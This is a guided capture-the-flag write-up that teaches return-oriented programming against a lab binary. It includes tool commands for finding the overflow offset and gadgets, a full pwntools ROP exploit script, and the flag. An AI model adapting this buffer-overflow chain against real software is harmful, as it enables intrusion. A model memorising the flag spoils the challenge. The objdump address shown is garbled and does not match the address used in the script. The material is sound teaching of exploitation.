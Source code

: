 # Challenge Name
baby_ROP

## Learning Objective
Learn Return Oriented Programming (ROP).

## Description 
ROOOOOOOOOOPPERS. Tell me the gadgets used as your flag. ex. if rax and rbx are used, then put as `MACCTF{raxrbx}`

## Difficulty:
guided (easy)

## Guide
Looking at the code, we have to use ret2win again for the uncalled `win` function. However, we have to fulfil the function arguments in order to call it.
1. a = 0x1337
2. b = 0xdead

We will instead do something called **Return Oriented Programming (ROP)**. ROP essentially uses the existing instructions/pieces of code in the program to help us craft our own payload. These pieces of code are also known as **gadgets**.

In x64, when function arguments are called, they are always placed in the registers first in the following order:
1. `rdi`
2. `rsi`
3. `rdx`
etc.

In this case, we need to use 2 arguments, so we need to use `rdi` & `rsi` registers.

What we need to find:
1. Offset required to BOF
2. Return address of `win` function
3. Gadgets

#### To find the offset needed:
1. use `cyclic 100` in pwndb (this generates the de bruijin sequence)
2. `break main` and run the program (C)
3. you should see that the `RSP` pointer contains `faaaaaaa` and beyond. We just need the first 8 bytes because that is where the return address is.

```shell
pwndbg> cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

#### To find the `win` address:
```sh
$> objdump -d baby_ROP_bin | grep win
0000000040537 <win>:
```

#### To find gadgets
For `rdi` register:
```sh
$> ROPgadget --binary baby_ROP_bin | grep rdi
0x0000000000400603 : pop rdi ; ret
```

For `rsi` register:
```sh
$> ROPgadget --binary baby_ROP_bin | grep rsi
0x0000000000400601 : pop rsi ; pop r15 ; ret
```

We can see that the `rsi` gadget has `pop r15` as well. We do not need this for the exploit but we have to fill it up with a redundant value so that it does not affect our ROP chain.

#### Assembling our exploit
Before we return to the `win` function, we want to prepare the registers first so that the function will take argument values from the registers accordingly. Our payload will then look something like this:

1. padding
2. pop rdi address + argument 1 (rdi)
3. pop rsi address + argument 2 (rsi) + redundent value (r15)
4. return address of `win` fcuntioon

#### Final solution
```py
from pwn import *

# setup process
p = process("./test64")
context.binary = "./test64"

# address of win function
win_addr = p64(0x400537)

# ROP gadget addresses
rdi_addr = p64(0x400603)
rsi_addr = p64(0x400601)

# payload = 
# padding
# pop rdi + argument 1
# pop rsi + argument 2 + pop r15 (we dont need r15)
# return to win

payload = b'A' * 40
payload += rdi_addr + p64(0x1337)
payload += rsi_addr + p64(0xdead) + p64(0)
payload += win_addr 

# send payload
p.sendline(payload)
p.interactive()
```

## Solution
Refer to solve.py

## Hints
1. x64 function calling convention
2. Ever heard of ROPgadgets/ropper/rp++?
3. Consider the order of your ROP chain. (What must go in first?)

## Attached Files
baby_ROP.c
baby_ROP_bin

## Resources
https://ctf101.org/binary-exploitation/what-are-calling-conventions/
https://ctf101.org/binary-exploitation/return-oriented-programming/
https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing


## Flag
`MACCTF{rdirsi}`